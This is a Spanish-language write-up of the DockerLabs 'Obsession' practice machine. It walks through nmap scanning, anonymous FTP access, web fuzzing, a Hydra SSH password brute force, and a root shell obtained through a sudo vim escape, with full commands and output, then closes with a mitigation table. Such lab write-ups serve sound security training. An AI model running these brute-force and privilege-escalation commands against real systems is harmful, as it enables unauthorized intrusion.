


# Obsession — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Descripcion 

Esta máquina demuestra cómo varias configuraciones inseguras pueden combinarse para producir un compromiso completo del sistema.

La exposición de información mediante FTP facilita la identificación del usuario, mientras que la configuración de SSH permite obtener acceso mediante fuerza bruta. Finalmente, una configuración incorrecta de privilegios sobre vim permite realizar la escalada hasta root.

##  Attack Chain

***Nmap → FTP Anonymous → File Enumeration → User Disclosure → Web Enumeration → SSH Brute Force → SSH Access → Sudo/Vim Abuse → Root

## 1. Reconocimiento e Identificación del Servicio

Con el contenedor de Dockerlabs desplegado en la IP `172.17.0.2`, realizamos una verificación de conectividad.


La respuesta del ping fue exitosa lo cual significa que se ha desplegado correctamente y se encuentra operativa.

### 1.2 Realizamos una busqueda para verificar puertos y servicios activos.

```text
┌──(mariano㉿Kaotic)-[~]
└─$ sudo nmap -sC -sV 172.17.0.2    
[sudo] password for mariano: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-24 11:20 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
|_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Russoski Coaching
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: AE:77:83:0A:27:00 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.61 seconds
```

Ya teniendo el resultado del escaneo de puertos, podemos observar que hay dos servicios corriendo, un servicio apache, SSH, FTP. Verificando podemos notar que en el servicio FTP podemos loguearnos como "anonymous"

### 1.3 Conexion al servidor FTP 

Como mencionamos anteriomente en el servicio FTP nos permite loguearnos con el usuarios anonymous, procedemos a realizar la conexion y verificar que encontramos.

```
┌──(mariano㉿Kaotic)-[~]
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:mariano): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||24873|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
226 Directory send OK.
ftp> get chat-gonza.txt
local: chat-gonza.txt remote: chat-gonza.txt
229 Entering Extended Passive Mode (|||9282|)
150 Opening BINARY mode data connection for chat-gonza.txt (667 bytes).
100% |*************************************************************************************************************|   667        2.43 MiB/s    00:00 ETA
226 Transfer complete.
667 bytes received in 00:00 (765.41 KiB/s)
ftp> get pendientes.txt
local: pendientes.txt remote: pendientes.txt
229 Entering Extended Passive Mode (|||58099|)
150 Opening BINARY mode data connection for pendientes.txt (315 bytes).
100% |*************************************************************************************************************|   315        1.01 MiB/s    00:00 ETA
226 Transfer complete.
315 bytes received in 00:00 (382.60 KiB/s)
ftp> exit
221 Goodbye.
```
Nos conectamos al servidor FTP, visualizamos dos archivos, chat-gonza y pendientes procedemos a descargarlos y vemos el siguiente contenido para ambos archivos

Pendientes:

```
┌──(mariano㉿Kaotic)-[~]
└─$ cat pendientes.txt
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..

```
Chat-gonza:

```
┌──(mariano㉿Kaotic)-[~]
└─$ cat chat-gonza.txt
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy

```
Teniendo en cuenta la informacion de ambos archivos, procedemos a realizar fuzzing y mala configuracion de los mas probable el servicio SSH.


### 1.3 Hacemos Web fuzzing

```
┌──(mariano㉿Kaotic)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://172.17.0.2/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 5208, Words: 2135, Lines: 119, Duration: 1ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.hta                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 1ms]
.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 1ms]
backup                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 3ms]
important               [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 2ms]
index.html              [Status: 200, Size: 5208, Words: 2135, Lines: 119, Duration: 2ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
:: Progress: [4614/4614] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

Ingresamos a la ip desde el navegador, para realizar web enumeration, visualizamos una pagina que se encuentra sin fallas explotables ni informacion de utilidad.



Procedemos a ingresar a **172.17.0.2/backup/** y encontramos el archivo backup.txt



Al ingresar al archivo nos da la siguiente pista: `Usuario para todos mis servicios: russoski (cambiar pronto!)`

## 2. Fuerza bruta con Hydra.

```
┌──(mariano㉿Kaotic)-[~]
└─$ sudo hydra -l russoski -P /usr/share/wordlists/rockyou.txt -t 4 -f 172.17.0.2 ssh
[sudo] password for mariano: 
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-26 19:43:49
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 72.00 tries/min, 72 tries in 00:01h, 14344327 to do in 3320:27h, 4 active
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-09-26 19:45:30

```
Obtenemos la clave para el servicio SSH, procedemos a realizar la conexion.

## 3. Conexion SSH y escalada de privilegio.


```
┌──(mariano㉿Kaotic)-[~]
└─$ sudo ssh russoski@172.17.0.2
[sudo] password for mariano: 
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.19.14+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Sep 26 20:59:37 2026 from 172.17.0.1
russoski@230724fb8fbd:~$ 

```
Realizamos una consulta para validar los permisos para escalar a root, de algun servicio mal configurado ya que por lo que leimos en los archivos, que se encuentran mal configurados.

```
russoski@230724fb8fbd:~$ sudo -l
Matching Defaults entries for russoski on 230724fb8fbd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 230724fb8fbd:
    (root) NOPASSWD: /usr/bin/vim

```
Como resultado obtenemos que podemos escalar privilegios utilizando vim para conseguir root, usamos el script conocido de GTFOBins.

```
russoski@230724fb8fbd:~$ sudo /usr/bin/vim -c ':!/bin/bash'

root@230724fb8fbd:/home/russoski# whoami
root
root@230724fb8fbd:/home/russoski# id
uid=0(root) gid=0(root) groups=0(root)
root@230724fb8fbd:/home/russoski# 
```
## Conclusión

La máquina **Obsession** presenta una cadena de ataque compuesta por varias configuraciones inseguras que, combinadas, permiten pasar desde la enumeración inicial hasta la obtención de privilegios `root`.

| Vulnerabilidad / Mala configuración                   | Impacto                                                                                                                                                                            | Mitigación                                                                                                                                                  |
| ----------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **FTP permite acceso `anonymous`**                    | Un atacante puede conectarse sin credenciales y descargar archivos que contienen información útil para continuar el ataque.                                                        | Deshabilitar el acceso `anonymous` si no es necesario. Si debe utilizarse, limitar estrictamente los permisos y archivos accesibles.                        |
| **Información sensible expuesta en archivos FTP**     | Uno de los archivos revela el nombre de usuario utilizado posteriormente para atacar el servicio SSH mediante fuerza bruta.                                                        | No almacenar usuarios, credenciales o información sensible en ubicaciones accesibles. Revisar y eliminar información innecesaria de archivos públicos.      |
| **Directorios/rutas web accesibles sin autorización** | Permite descubrir recursos que no deberían estar expuestos públicamente y obtener información adicional sobre el sistema.                                                          | Implementar controles de acceso adecuados y restringir las rutas sensibles. Evitar depender únicamente de ocultar URLs.                                     |
| **Credenciales SSH susceptibles a fuerza bruta**      | Con un usuario válido identificado, un atacante puede intentar obtener la contraseña mediante ataques automatizados como `Hydra`.                                                  | Utilizar contraseñas fuertes y únicas, implementar políticas de bloqueo o rate limiting y, cuando sea posible, utilizar autenticación mediante claves SSH.  |
| **Configuración insegura de `sudo` / acceso a `vim`** | Un usuario con permisos para ejecutar `vim` mediante `sudo` puede utilizar sus funcionalidades para escapar del contexto restringido y obtener una shell con privilegios elevados. | Aplicar el principio de mínimo privilegio y evitar permitir herramientas que puedan ejecutar comandos o shells con `sudo` sin una justificación específica. |
| **Escalada de privilegios hasta `root`**              | La combinación de las configuraciones anteriores permite comprometer completamente el sistema.                                                                                     | Revisar periódicamente permisos, reglas de `sudo`, servicios expuestos y configuraciones de seguridad.                                                      |


### Recomendaciones generales

* Deshabilitar servicios y accesos que no sean necesarios.
* Evitar el acceso anónimo a servicios como FTP.
* No exponer información sensible en archivos accesibles.
* Implementar controles de acceso adecuados en aplicaciones web.
* Utilizar contraseñas robustas y políticas contra ataques de fuerza bruta.
* Preferir autenticación mediante claves SSH.
* Revisar periódicamente las reglas de `sudo`.
* Aplicar siempre el principio de **mínimo privilegio**.


